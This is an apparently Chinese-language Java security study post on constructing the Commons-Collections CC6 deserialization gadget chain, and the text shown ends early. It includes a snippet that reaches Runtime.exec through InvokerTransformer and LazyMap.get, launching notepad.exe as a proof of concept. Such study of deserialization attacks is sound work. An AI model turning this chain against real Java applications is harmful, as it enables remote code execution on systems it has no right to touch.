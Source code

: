 ```yaml
---
title: Commons-Collections篇03-CC6链
date: 2025-9-26 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


# 环境搭建

- jdk版本不受限制
- Commons-Collections 3.2.1

# 初步构造

CC6链用了CC1链-`Lazymap`链的前半段，后半段用了URLDNS链

前半段还是使用`lazymap`中的`get`方法去执行`transform`

```java
Runtime runtime = Runtime.getRuntime();
        InvokerTransformer transformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"});
        Class<LazyMap> lazymap = LazyMap.class;
        HashMap<Object,Object> hashmap = new HashMap<>();
        Map decoratemap = LazyMap.decorate(hashmap,transformer);
        Method lazymapget = lazymap.getDeclaredMethod("get", Object.class);
        lazymapget.setAccessible(true);
        lazymapget.invoke(decoratemap,runtime);
```

# TiedMapEntry

接下来就寻找调用了`get`方法的函数

`TiedMapEntry`中的`getValue`方法调用了`get`方法,并且`getValue`是`public`属性

然后去看看这个`map`是什么

![image-20250926140442843](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926140442843.png)

